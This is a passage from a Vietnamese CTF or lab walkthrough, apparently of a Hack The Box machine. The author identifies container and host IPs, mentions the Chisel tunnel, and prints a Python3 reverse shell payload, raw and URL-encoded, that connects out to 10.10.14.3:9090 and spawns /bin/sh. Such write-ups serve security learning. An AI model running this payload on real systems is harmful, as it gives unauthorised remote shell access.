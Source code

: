 ![](../../attachments/Screenshot_2022-07-25_04_39_37.png)

![](../../attachments/Screenshot_2022-07-25_04_39_55.png)

→ Với các thông tin trên đã cho ta biết, container này có IP: 172.17.0.5 và  host IP: 172.17.0.1 → đây cũng có thể là internal IP của machine này. 

Tới đây mình có nghĩ đến việc dựng một `tunnel` để có thể tương tác trực tiếp với machine thông qua kết nối của `container` với `machine`. Sau một hồi google mình tìm thấy `Chisel` [here](https://github.com/jpillora/chisel)

## Python3 Reverse Shell

Để thuận tiện cho việc xây dựng tunnel, mình tiếp tục upload python3 reverse shell

**Raw payload:**

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.3",9090));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")'
```

**URL encoded payload:**

```
python3%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%2210.10.14.3%22%2C9090%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3Bos.dup2%28s.fileno%28%29%2C2%29%3Bimport%20pty%3B%20pty.spawn%28%22%2Fbin%2Fsh%22%29%27
```
